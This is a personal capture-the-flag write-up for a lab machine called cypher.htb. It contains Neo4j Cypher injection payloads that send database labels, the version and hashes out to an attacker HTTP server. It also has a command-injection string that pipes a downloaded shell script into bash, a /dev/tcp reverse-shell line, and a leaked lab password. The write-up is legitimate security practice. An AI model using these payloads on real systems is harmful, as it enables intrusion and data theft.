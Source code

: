 ![](Pasted%20image%2020250302120440.png)
# 1.  Service Enumeration
| IP  | Port |
| --- | ---- |
| TCP | -    |
| UDP | -    |
## a. TCP Active Port
![](Pasted%20image%2020250302120508.png)
![](Pasted%20image%2020250302123534.png)
## b. UDP Active Port
![](Pasted%20image%2020250302142145.png)
## c. Domain
cypher.htb
# 2. Initial Access
## a. Web - cypher.htb
### Login
![](Pasted%20image%2020250302164602.png)
## b. Subdomain
no result
## c. Directory
feroxbuster
![](Pasted%20image%2020250302165805.png)
## d. Directory Listing
![](Pasted%20image%2020250302164924.png)
open jar file
![](Pasted%20image%2020250302165457.png)
try open using jd-gui, CustomeFunctions.class is quite ineteresting 
![](Pasted%20image%2020250302212736.png)
```
package com.cypher.neo4j.apoc;

import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.util.Arrays;
import java.util.concurrent.TimeUnit;
import java.util.stream.Stream;
import org.neo4j.procedure.Description;
import org.neo4j.procedure.Mode;
import org.neo4j.procedure.Name;
import org.neo4j.procedure.Procedure;

public class CustomFunctions {
  @Procedure(name = "custom.getUrlStatusCode", mode = Mode.READ)
  @Description("Returns the HTTP status code for the given URL as a string")
  public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {
    if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://"))
      url = "https://" + url; 
    String[] command = { "/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url };
    System.out.println("Command: " + Arrays.toString((Object[])command));
    Process process = Runtime.getRuntime().exec(command);
    BufferedReader inputReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
    BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()));
    StringBuilder errorOutput = new StringBuilder();
    String line;
    while ((line = errorReader.readLine()) != null)
      errorOutput.append(line).append("\n"); 
    String statusCode = inputReader.readLine();
    System.out.println("Status code: " + statusCode);
    boolean exited = process.waitFor(10L, TimeUnit.SECONDS);
    if (!exited) {
      process.destroyForcibly();
      statusCode = "0";
      System.err.println("Process timed out after 10 seconds");
    } else {
      int exitCode = process.exitValue();
      if (exitCode != 0) {
        statusCode = "0";
        System.err.println("Process exited with code " + exitCode);
      } 
    } 
    if (errorOutput.length() > 0)
      System.err.println("Error output:\n" + errorOutput.toString()); 
    return Stream.of(new StringOutput(statusCode));
  }
  
  public static class StringOutput {
    public String statusCode;
    
    public StringOutput(String statusCode) {
      this.statusCode = statusCode;
    }
  }
}
```
try run the jar file -> `no main manifest attribute, in custom-apoc-extension-1.0-SNAPSHOT.jar`
![](Pasted%20image%2020250302213910.png)
## e. Login form
error when input single quote -> database **neo4j**
![](Pasted%20image%2020250302215509.png)
try sqlmap -> failed
![](Pasted%20image%2020250302220106.png)
https://www.varonis.com/blog/neo4jection-secrets-data-and-cloud-exploits
- cek db
```
' RETURN 0 as _0 UNION CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.26:8000/?l='+label as l RETURN 0 as _0 //

' OR 1=1 WITH 1 as a CALL db.labels() YIELD label LOAD CSV FROM 'http://10.10.14.191:8000/?'+label AS b RETURN b//
```
![](Pasted%20image%2020250303111801.png)
![](Pasted%20image%2020250303111825.png)
- cek neo4j version -> 5.24.1
```
' RETURN 0 as _0 UNION CALL dbms.components() YIELD versions LOAD CSV FROM 'http://10.10.14.26:8000/?v='+versions[0] as v RETURN 0 as _0//

' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.26:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```
![](Pasted%20image%2020250303140409.png)
- cek value dari masing2 label
  labeh HASH menarik -> 9f54ca4c130be6d529a56dee59dc2b2090e43acf
```
' OR 1=1 WITH 1 as a MATCH (f:HASH) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.191:8000/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```
![](Pasted%20image%2020250306090611.png)
label scan -> SCAN:eb3cf8eb641dd2e8005128c2fee4b43e59fd7785
![](Pasted%20image%2020250306093939.png)

## f. Hash Cracking
ndak bisa
## g. get shell
```
' return h.value as a UNION CALL custom.getUrlStatusCode(\"cypher.htb;curl http://10.10.14.26:8000/shell.sh| bash;\") YIELD statusCode AS a RETURN a;//
```
![](Pasted%20image%2020250306115257.png)
```
/bin/sh -i >& /dev/tcp/10.10.14.26/4444 0>&1
```
![](Pasted%20image%2020250306115356.png)
## i. Explore shell
got credentials cU4btyib.20xtCMCXkBmerhK
![](Pasted%20image%2020250306131506.png)
try ssh using that credentials -> success
![](Pasted%20image%2020250306132952.png)
# 3. Privilege Escalation
## a. First explore
sudo -l
![](Pasted%20image%2020250306133152.png)
netstat -tunlp
![](Pasted%20image%2020250306133243.png)
bbot credentials
![](Pasted%20image%2020250306134040.png)
## b. Bbot
![](Pasted%20image%2020250306140638.png)
extract root.txt
![](Pasted%20image%2020250306140720.png)
# 4. Post Exploitation
## a. User Flag
yeah
## b. Root Flag
oh yeaaah
